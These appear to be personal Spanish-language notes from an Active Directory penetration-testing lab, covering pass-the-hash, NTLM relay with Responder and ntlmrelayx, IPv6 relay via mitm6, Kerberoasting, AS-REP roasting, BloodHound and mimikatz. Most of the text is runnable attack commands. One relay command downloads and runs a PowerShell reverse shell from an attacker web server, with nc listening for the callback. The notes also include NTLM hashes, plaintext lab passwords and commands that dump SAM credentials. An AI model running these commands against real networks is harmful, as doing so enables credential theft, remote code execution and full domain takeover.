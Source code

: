 pass the hash (PTH)
impacket-wmiexec marvel.local/fcastle@192.168.50.103 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b

NTLMrelay
modificar archivp
vim /etc/responder/Responder.conf <--- cambia http - SB -> off
definir archivo target : el cual donde se desea ingresar y tiene permisos de administrador (pwn3d!)

IPV4
impacket-ntlmrelayx -tf targets -smb2support <- se hace un dummp de SAM.

tambien se pueden ejecutar comandos cuando se envenee la comunicacion
descargar git clone https://github.com/samratashok/nishang.git
modificar el Invoke-PowerShellTCP.ps1 (cp Invoke-PowerShellTCP.ps1 PS.ps1)
editar PS.ps1 y al final de linea poner (Invooke-PowerShellTCP -Reverse -UPAddress ip-atacante -Port 4444)
python -m http.server 8000
reponder.py -I eth0 -rdw
impacket-ntlmrelayx -tf targets -smb2support -c "powershell IEX(New-Object New.WebClient).downloadString('http://192.168.50.105:8000/PS.ps1')"
nc -lnvp 4444
####Ya se deberia tener revershell en la maquina definida en el archivo target

IPV6
pip install mitm6
mitm6 -d marvel.local
ntlmrelayx.py -6 -wh ipatacante -t smb://ip-target -socks -debug -smb2support <crear una sesion interactiva
ejecutar "socks" \<debera decir AdminStatus = True <>
vim /etc/proxychains4.conf <<poner 1008 como puerto de proxy
proxychains crackmapexec smb iptarget -u 'fcastle' -p 'asd' -d 'marvel' --sam \<se puede poner cualquier contraseña, por que se aprovecha el relay de comunicacion y credenciales>

conexion al target con credenciales validas
impacket-psexec marvel.local/administrator:Camidu10.@192.168.50.103 cmd.exe
evil-winrm -u 'SQLService' -p 'Mypassword123.' -l 192.168.50.103

Enumeracion de AD (null session, de lo contrario hacer autenticacion con un usuario valido)
rpcclient -U 'hydra.local\\pparker%password1' 192.168.50.103 -c enumdousers ó queryuser

Kerberos y asproast

identificar usuario con SPN (service princiapl name)
GETUsersSPNs.py hydra.local/pparker:Password1 -request
crack con john \<validar si el usuario identiicado con la contraseña es adinistrador, se valida con cme smb ip -u usuario -p password (pwn3d!)>

fuerza bruta e identificacion de usuarios con SPN
GetNPUsers.py domain/ -no.pass -usersfile user.txt

Privilege escalation
apt-get install neo4j bloodhound
conectar en maquina vulnerada y descargar mimikatz /usuario administrado

**\- Golden Ticket**
https://www.netwrix.com/how\_golden\_ticket\_attack\_works.html
whoami /user >> sacar SID
